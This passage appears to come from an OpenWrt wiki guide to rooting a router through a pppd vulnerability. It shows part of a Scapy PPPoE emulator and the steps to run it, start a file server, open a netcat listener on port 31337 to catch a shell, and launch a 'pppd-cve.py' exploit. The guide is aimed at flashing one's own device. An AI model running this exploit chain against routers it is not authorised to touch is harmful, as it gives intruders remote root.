
def isNotOutgoing(pkt):
    if pkt.haslayer(Ether):
        return pkt[Ether].src != mac_server
    return False


if __name__ == '__main__':
    conf.verb = 0  # Suppress Scapy output
    conf.iface = interface  # Set default interface
    mac_server = get_if_hwaddr(interface)
    print("Waiting for packets")
    sniff(prn=packet_callback, filter="pppoed or pppoes", lfilter=isNotOutgoing)
</code>

=== Instructions ===

//These instructions assume that the ethernet interface being used is named eth0, please adjust the interface name to your own setup as required within the python scripts. Some of these commands may require to be run as root.//

== Initial setup ==

  - Setup your ethernet interface with the ip address: 192.168.31.177
  - Bridge the WAN port on the router with one of the LAN ports on the router by connecting an ethernet cable between them.
  - Connect your computer to the router with your other ethernet cable.

<code>
# Start our PPPoE emulator
python pppoe-simulator.py
</code>

Now we can run our router through the initial setup wizard on ''%%http://192.168.31.1%%'', during which PPPoE should be auto-detected and chosen. Any combination of credentials are acceptable.

<code>
# A quick http server for the current directory (ie. Where you have placed your OpenWrt images)
python -m http.server 80
# And in another window...
netcat -nvlp 31337
</code>

== Running the exploit ==

<code>
# In another window to trigger the exploit
python pppd-cve.py
</code>
